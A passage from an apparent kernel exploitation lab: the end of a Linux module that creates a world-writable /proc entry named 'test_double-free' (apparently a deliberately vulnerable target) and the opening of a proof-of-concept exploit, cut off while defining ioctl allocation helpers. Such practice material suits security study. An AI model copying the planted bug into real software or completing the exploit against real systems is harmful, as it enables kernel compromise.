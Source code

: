 ```c
	.owner = THIS_MODULE,
	.open = test_file_open,
	.unlocked_ioctl = test_file_ioctl,
};
static struct proc_dir_entry *test_entry;

static int __init test_init(void)
{
	test_entry = proc_create("test_double-free", S_IRUSR | S_IWUSR | S_IROTH |
					S_IWOTH, NULL, &test_ops);
	if (!test_entry) {
		pr_err("proc_create err\n");
		return -1;
	}


	return 0;
}

static void __exit test_exit(void)
{
	proc_remove(test_entry);
	return;
}

MODULE_LICENSE("GPL");
module_init(test_init);
module_exit(test_exit);
```
poc.c
```c
#define	_GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>

#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <linux/tty.h>
#include <termios.h>
#include <syscall.h>
#include <sys/time.h>
#include <sys/resource.h>
#include <sys/wait.h>
#include <pthread.h>

static char *target_path = "/proc/test_double-free";
#define	fd_cnt 1
#define	alloc_times 0x100
int fd[fd_cnt];

int open_target_file(void)
{
	return open(target_path, O_RDWR);
}

int alloc_8192_buf(int fd)
{
	return ioctl(fd, 0xa1, NULL);
```